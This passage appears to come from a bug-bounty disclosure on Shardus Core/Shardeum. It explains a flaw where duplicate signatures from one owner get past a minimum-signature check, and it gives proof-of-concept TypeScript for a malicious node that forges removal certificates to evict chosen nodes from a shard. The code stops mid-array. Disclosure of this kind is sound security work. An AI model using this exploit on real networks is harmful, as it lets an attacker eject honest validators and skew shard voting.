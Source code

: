 As it can be seen by reading the function, there is nothing that prevents sending the same signature for the same owner multiple times, to bypass the `validNodeCount >= minRequired` check.

In the Proof of Concept section we'll describe how we created a malicious node that receives an **HTTP GET** request with the public key of any node within his shard and kicks him out.

This can be exploited to control which nodes can join your shard, hence, manipulating your percentage of a shard's voting.
        
## Proof of concept
## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo, then point Shardeum to use the local copy of Shardu's Core.

> Steps to do so are well documented in the respective repos.

Below, we'll create a way for a malicious node to Gossip the exploit to the network.
 
In your local copy of Shardus Core, open the file `/src/shardus/index.ts` and add the following function:

```
  async infosec_gossipRemoveNode(pk: string): Promise<string> {

    let thenodes = nodeListFromStates([
      P2P.P2PTypes.NodeStatus.ACTIVE,
      P2P.P2PTypes.NodeStatus.READY,
      P2P.P2PTypes.NodeStatus.SYNCING,
    ]);

    this.mainLogger.warn(`INFOSEC: Trying to disconnect him: ${pk}`)
    console.log(`INFOSEC: Trying to disconnect him: ${pk}`)

    let certificate: P2P.LostTypes.RemoveCertificate = {
      nodePublicKey: pk, // Victim node
      cycle: CycleCreator.currentCycle - 2,
    };

    const hash = crypto.hashObj(certificate)

    const closestNodes = this.getClosestNodes(hash, 6);
    const closestNodesByPubKey = new Map()
    for (let i = 0; i < closestNodes.length; i++) {
      const node = this.p2p.state.getNode(closestNodes[i])
      if (node) {
        closestNodesByPubKey.set(node.publicKey, node)
      }
    }

    let ourPublicKey = Self.getPublicNodeInfo(true).publicKey;
    if (!closestNodesByPubKey.has(ourPublicKey)) {
      this.mainLogger.warn(`INFOSEC: WE ARE NOT in the closest nodes list.`)
      console.log(`INFOSEC: WE ARE NOT in the closest nodes list.`)
      return "INFOSEC: WE ARE NOT in the closest nodes list.";
    }

    let oursig = this.crypto.sign(certificate).sign;

    certificate.signs = [
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
      { owner: oursig.owner, sig: oursig.sig },
```